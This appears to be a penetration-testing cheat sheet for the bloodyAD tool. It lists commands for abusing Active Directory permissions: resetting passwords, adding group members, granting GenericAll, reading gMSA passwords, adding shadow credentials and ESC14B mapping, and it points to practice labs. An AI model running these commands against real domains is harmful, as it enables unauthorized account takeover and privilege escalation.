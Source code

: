 ### Installation
Using uv
```
uv tool install bloodyAD
```
Using pipx
```
pipx install bloodyAD
```
### Retrieve User Information
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Modify UPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
### MachineAccountQuota
Enumerate MachineAccountQuota
```
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
### Modify mail
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
### Modify the altSecurityIdentities attribute (ESC14B)
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
### Find Writable Attributes
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
### Shadow Credentials
```
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```
### WriteSPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
### Find Deleted Objects
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
### Extended Search Operations
```
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```
e.g. 
```
-c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065 to display tombstoned
```
```
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
### Restore a deleted object
```
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
``` 
### Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p :hash` 
- Specify format for '--password' or '-k <keyfile>' using `-f`, e.g. `-f rc4`
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
- TombWatcher (HackTheBox)
- Voleur (HackTheBox)